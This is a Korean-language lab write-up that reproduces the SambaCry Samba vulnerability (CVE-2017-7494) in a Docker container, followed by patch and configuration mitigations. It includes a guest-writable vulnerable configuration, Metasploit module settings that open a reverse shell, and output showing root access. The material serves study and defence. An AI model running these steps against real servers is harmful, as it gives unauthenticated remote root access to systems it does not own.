

# CVE-2017-7494 (SambaCry) - 취약 환경 구축 및 PoC 실습

## 0. Samba

Samba는 윈도우(Windows)와 리눅스(Linux)처럼 서로 다른 운영체제를 사용하는 컴퓨터끼리 파일과 프린터를 쉽게 공유할 수 있게 해주는 무료 소프트웨어 프로그램이다. 

## 1. 취약점 요약

| 항목 | 내용 |
|------|------|
| CVE | CVE-2017-7494 |
| 별칭 | SambaCry |
| 취약 버전 | Samba 3.5.0 ~ 4.4.13 / 4.5.x < 4.5.10 / 4.6.x < 4.6.4 |
| 취약 함수 | `is_known_pipename()` |
| 공격 유형 | RCE (Remote Code Execution) |
| 인증 필요 | 불필요 (guest 접근 가능 시) |
| CVSS Score | 9.8 (Critical) |
| 공개일 | 2017년 5월 24일 |

### 취약점 원리

Samba의 `is_known_pipename()` 함수는 SMB 클라이언트가 Named Pipe에 연결 요청할 때 호출된다.
이 함수는 알 수 없는 파이프 이름을 받으면 해당 이름을 파일 경로로 간주하고 `dlopen()`을 호출하는 설계 결함이 있다.


### 공격 흐름

```
공격자

 1. writable share에 payload.so 업로드
 2. IPC$에 연결하여 Named Pipe 이름으로 경로 전달
 3. is_known_pipename("/home/share/payload.so") 호출 
 4. dlopen("/home/share/payload.so") → RCE (root)
```

---

## 2. 환경 구성

### 디렉토리 구조

```
CVE-2017-7494/
├── docker-compose.yml
└── smb.conf
```

### docker-compose.yml

```yml
services:
 samba:
   image: vulhub/samba:4.6.3
   tty: true
   volumes:
    - ./smb.conf:/usr/local/samba/etc/smb.conf
   ports:
    - "445:445"
    - "6699:6699"
```

### smb.conf

```config
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

### 환경 실행

```bash
# 빌드 및 실행
docker compose build
docker compose up -d

# 버전 확인 (4.3.9 나와야 함)
docker compose exec samba smbd --version

# 공유 폴더 접근 확인
smbclient -L //127.0.0.1 -p 445 -N
```

---

## 3. 취약 조건

취약점이 성립하려면 다음 조건이 **모두** 충족되어야 한다.

| 조건 | 설명 |
|------|------|
| 취약한 Samba 버전 | 3.5.0 이상 ~ 4.4.13 이하 |
| 쓰기 가능한 공유 폴더 | 공격자가 `.so` 파일 업로드 가능 |
| `nt pipe support = yes` | Named Pipe 연결 허용 |
| 서버측 절대경로 파악 | `dlopen()` 호출 시 정확한 경로 필요 |

---

## 4. 재현 절차

### Step 1. 환경 구축

```bash
docker compose up -d
```

### Step 2. 공유 폴더 접근 확인

```bash
smbclient -L //127.0.0.1 -p 445 -N
```

출력 예시:
```
Sharename    Type    Comment
---------    ----    -------
myshare      Disk
IPC$         IPC     IPC Service (Samba Server Version 4.3.9)
```

### Step 3. Metasploit 실행

```bash
sudo msfconsole
```

### Step 4. 모듈 설정 및 실행

```bash
use exploit/linux/samba/is_known_pipename

set RHOSTS 127.0.0.1
set RPORT 445
set LHOST 127.0.0.1
set LPORT 4444
set SMB_SHARE_NAME myshare

run
```

### Step 5. 쉘 획득 후 확인



---

## 5. PoC 코드

Metasploit이 내부적으로 수행하는 동작:

```
1. SMB 연결 (guest 로그인)
2. writable share 탐색 (myshare 발견)
3. ELF shared object (.so) 형태의 payload 생성 및 업로드
4. IPC$에 연결하여 Named Pipe 이름으로 절대경로 전달
5. smbd: is_known_pipename() → dlopen() 호출
6. payload.so 내부 코드 실행 → 리버스쉘 연결
```

Metasploit 모듈:
```
exploit/linux/samba/is_known_pipename
```

---

## 6. 실행 결과

### 공유 폴더 확인

```
$ smbclient -L //127.0.0.1 -p 445 -N

    Sharename    Type    Comment
    ---------    ----    -------
    myshare      Disk
    IPC$         IPC     IPC Service (Samba Server Version 4.3.9)
```

### Metasploit exploit 성공

```
msf exploit(linux/samba/is_known_pipename) > run

[*] 127.0.0.1:445 - Using location \\127.0.0.1\myshare\ for the path
[*] 127.0.0.1:445 - Retrieving the remote path of the share 'myshare'
[*] 127.0.0.1:445 - Share 'myshare' has server-side path '/home/share
[*] 127.0.0.1:445 - Uploaded payload to \\127.0.0.1\myshare\QHsHAwxH.so
[*] 127.0.0.1:445 - Loading the payload from server-side path /home/share/QHsHAwxH.so using \\PIPE\/home/share/QHsHAwxH.so...
[-] 127.0.0.1:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 127.0.0.1:445 - Loading the payload from server-side path /home/share/QHsHAwxH.so using /home/share/QHsHAwxH.so...
[+] 127.0.0.1:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (127.0.0.1:46459 -> 127.0.0.1:445) at 2026-07-07 00:28:53 -0400
```

### root 권한 획득

```
$ whoami
root

$ id
uid=0(root) gid=0(root) groups=0(root)

$ uname -a
Linux <hostname> 4.15.0 #1 SMP x86_64 GNU/Linux
```

---

## 7. 대응 방안

### 즉각 조치 (Samba 업그레이드)

```bash
apt-get update && apt-get upgrade samba

# 패치 버전 확인
smbd --version
# 4.4.14 / 4.5.10 / 4.6.4 이상이어야 함
```

### smb.conf 설정으로 완화

```conf
[global]
    nt pipe support = no    # Named Pipe 비활성화 → 트리거 차단
```

### 대응 방안 요약

| 방안 | 효과 | 난이도 |
|------|------|--------|
| Samba 패치 버전 업그레이드 | 근본적 해결 | 낮음 |
| `nt pipe support = no` | 트리거 차단 | 낮음 |
| 공유 폴더 쓰기 권한 제한 | 업로드 차단 | 낮음 |
| 445/139 포트 방화벽 차단 | 외부 접근 차단 | 낮음 |

### 취약점 근본 원인

```
is_known_pipename() 함수가
알 수 없는 파이프 이름을 파일 경로로 간주하여
dlopen()을 호출하는 설계 결함

패치 내용:
→ 파이프 이름에 절대경로(/) 포함 시 거부
→ 알 수 없는 파이프 이름에 대한 dlopen() 호출 제거
```

---

## 참고

- [Samba 공식 보안 공지](https://www.samba.org/samba/security/CVE-2017-7494.html)
- [NVD - CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
- [Metasploit 모듈](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/samba/is_known_pipename.rb)